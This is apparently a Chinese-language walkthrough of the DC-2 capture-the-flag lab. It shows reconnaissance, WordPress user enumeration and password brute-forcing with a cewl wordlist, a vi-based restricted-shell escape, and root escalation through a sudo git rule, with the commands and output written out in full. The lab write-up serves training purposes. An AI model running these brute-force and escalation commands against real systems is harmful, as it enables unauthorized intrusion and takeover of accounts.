 # DC-2

### 目标探测

使用arp扫描一下靶机目标

```
┌──(root㉿kali)-[~/Desktop/test]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f5:d6:36, IPv4: 192.168.5.134
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.5.1     00:50:56:c0:00:08       VMware, Inc.
192.168.5.2     00:50:56:f6:37:b9       VMware, Inc.
192.168.5.138   00:0c:29:9b:2a:1c       VMware, Inc.
192.168.5.254   00:50:56:fc:0f:b8       VMware, Inc.

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.936 seconds (132.23 hosts/sec). 5 responded
```

Nmap扫描一下目标开放端口

```
┌──(root㉿kali)-[~/Desktop/test]
└─# nmap -sS -sV -p- -T4 192.168.5.138
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 02:10 EST
Nmap scan report for dc-2 (192.168.5.138)
Host is up (0.00085s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
MAC Address: 00:0C:29:9B:2A:1C (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
```

可用看到开放了两个端口80 web 和7744 ssh，我们访问一下80，IP访问跳转到了域名 我们将它加入到/etc/hosts文件当中

```
┌──(root㉿kali)-[~/Desktop/test]
└─# cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       kali
192.168.5.138   dc-2

::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
```

可用看到这是一个wordpass网站吗，这个flag提供给我们的信息让我们用cewl生成密码用来登录一个用户

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

我们先用nikto扫描一下看看有没有扫描有用的信息

```
┌──(root㉿kali)-[~/Desktop/test]
└─# nikto -host http://dc-2/
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.5.138
+ Target Hostname:    dc-2
+ Target Port:        80
+ Start Time:         2023-12-14 02:23:26 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: Drupal Link header found with value: ARRAY(0x562441ddf150). See: https://www.drupal.org/
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ /license.txt: License file found may identify site software.
+ /: A Wordpress installation was found.
+ /wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wp-login.php: Wordpress login found.
+ 7850 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2023-12-14 02:24:06 (GMT-5) (40 seconds)
```

这里有一个wordpass的登录页面，接下来我们用wpscan枚举一下它的用户名

```
┌──(root㉿kali)-[~/Desktop/test]
└─# wpscan --url http://dc-2/ --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

这里枚举出来了三个用户名，接下来我们用cewl来生成密码，记得将用户名也保存到单独的txt文件当中

```
┌──(root㉿kali)-[~/Desktop/test]
└─# cewl -w dc-2.txt -d 5 -m 4 http://dc-2/       
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

开始用wpscan 爆破密码

```
┌──(root㉿kali)-[~/Desktop/test]
└─# wpscan --url http://dc-2/ -U dc.txt -P dc-2.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

得到了两个账号，我们先用jerry这个用户登录一下wordpass

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

这里告诉我们，如果无法在这里拿到shell，我们得尝试一下其它方法去，我们尝试ssh登录一下

```
┌──(root㉿kali)-[~/Desktop/test]
└─# ssh jerry@192.168.5.138 -p7744      
jerry@192.168.5.138's password: 
Permission denied, please try again.

┌──(root㉿kali)-[~/Desktop/test]
└─# ssh tom@192.168.5.138 -p7744
tom@192.168.5.138's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Dec 14 09:58:41 2023 from 192.168.5.134
tom@DC-2:~$
```

tom这个用户可用成功登录



### 权限提升

\
`rbash` 是 Bash shell 的一种限制模式。在这个模式下，用户受到一些额外的限制，使其只能执行有限的操作，从而提高系统的安全性。

```
tom@DC-2:~$ id
-rbash: id: command not found
```

在网上查找了一下这个绕过的方法

在命令行中，输入 vi，在末行模式中依次输入以下两条内容

```
:set shell=/bin/bash

:shell
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

再配置一下环境变量就可以绕过shell了

```
tom@DC-2:~$ export PATH=/usr/sbin:/usr/bin:/sbin:/bin
tom@DC-2:~$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
```

我们查看一下有没有以root用户正在运行的命令，tom这个用户似乎不能执行这个命令，我们su切换到jerry这个用户

```
tom@DC-2:~$ sudo -l
[sudo] password for tom: 
Sorry, user tom may not run sudo on DC-2.
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
jerry@DC-2:/home/tom$
```

可以看到git这个命令是以root权限运行的我们，通过搜索该提权方式可以利用以下命令提权

```
jerry@DC-2:/home/tom$ sudo git help status

!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

这样就获得了一个root权限的shell

```
jerry@DC-2:/home/tom$ sudo git help status
root@DC-2:/home/tom# id
uid=0(root) gid=0(root) groups=0(root)
```
